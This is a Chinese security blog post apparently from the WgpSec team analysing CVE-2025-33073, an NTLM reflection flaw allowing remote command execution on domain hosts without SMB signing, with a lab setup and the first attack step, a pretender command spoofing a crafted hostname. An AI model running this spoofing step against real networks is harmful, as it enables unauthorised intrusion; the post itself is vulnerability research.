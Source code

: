 #  域内大杀器 CVE-2025-33073 漏洞分析  
原创 Kfzz1  WgpSec狼组安全团队   2025-06-17 07:17  
  
**点击蓝字**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif "")  
  
**关注我们**  
  
  
**声明**  
  
本文作者：Kfzz1  
  
本文字数：2821字  
  
阅读时长：34分钟  
  
附件/链接  
：点击查看原文下载  
  
**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**  
  
  
由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。  
  
狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4LicHRMXdTzAJOBqtShvMBtBXnAYfHAuziaELxUkYo5Ta1ro6AohToV1RDuFmiaib25w2GypianXgcfVmGR4uSFAdHw/640?wx_fmt=jpeg "")  
  
  
  
  
> ❝  
> 6月10日的补丁更新了 CVE-2025-33073 漏洞，在6月11日漏洞作者公开了漏洞细节 《NTLM reflection is dead, long live NTLM reflection! – An in-depth analysis of CVE-2025-33073》，微软官方对该漏洞的描述为 SMB 客户端特权提升漏洞，但从影响面来看不止权限提升这么简单，攻击者只要有任意权限的域用户权限且目标机器不开启 SMB 签名就能远程命令执行，而在大部分情况下，SMB 签名默认只有域控开，域内机器十有八九是不开的。  
  
## 漏洞验证  
  
漏洞使用前提：  
- 任意权限的域账户  
  
- 目标机器没有开启 SMB 签名  
  
攻击者：  
- kali：192.168.56.9  
  
- victim：192.168.56.22/CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL  
  
- 域控：192.168.56.11/WINTERFELL.NORTH.SEVENKINGDOMS.LOCAL  
  
### 攻击细节  
#### 使用 NTLM 反射  
  
1、使用 pretender 在局域网里开启域名监听（该方法限于同一局域网，不会在域内添加 DNS 记录较隐蔽）  
```
pretender -i "eth1" --spoof "CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --no-dhcp-dns --no-timestamps
```  
  